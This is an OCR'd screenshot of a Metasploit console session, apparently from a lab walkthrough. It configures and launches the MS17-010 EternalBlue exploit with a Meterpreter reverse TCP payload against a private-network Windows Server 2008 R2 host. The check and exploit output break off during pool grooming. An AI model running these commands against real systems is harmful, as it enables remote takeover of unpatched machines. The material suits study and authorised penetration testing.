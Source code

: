 ```c
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.226.129  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.226.130
RHOSTS => 192.168.226.130

msf5 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 192.168.226.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.226.130:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.226.130:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.226.130:445 - The target is vulnerable.

msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit      运行
                                                                                                                         
[*] Started reverse TCP handler on 192.168.226.129:4444                                                                       
[*] 192.168.226.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check                                                         
[+] 192.168.226.130:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)      
[*] 192.168.226.130:445   - Scanned 1 of 1 hosts (100% complete)                                                                                   
[*] 192.168.226.130:445 - Connecting to target for exploitation.
[+] 192.168.226.130:445 - Connection established for exploitation.
[+] 192.168.226.130:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.226.130:445 - CORE raw buffer dump (53 bytes)
[*] 192.168.226.130:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.226.130:445 - 0x00000010  30 30 38 20 52 32 20 44 61 74 61 63 65 6e 74 65  008 R2 Datacente
[*] 192.168.226.130:445 - 0x00000020  72 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  r 7601 Service P
[*] 192.168.226.130:445 - 0x00000030  61 63 6b 20 31                                   ack 1           
[+] 192.168.226.130:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.226.130:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.226.130:445 - Sending all but last fragment of exploit packet
[*] 192.168.226.130:445 - Starting non-paged pool grooming
[+] 192.168.226.130:445 - Sending SMBv2 buffers
[+] 192.168.226.130:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
```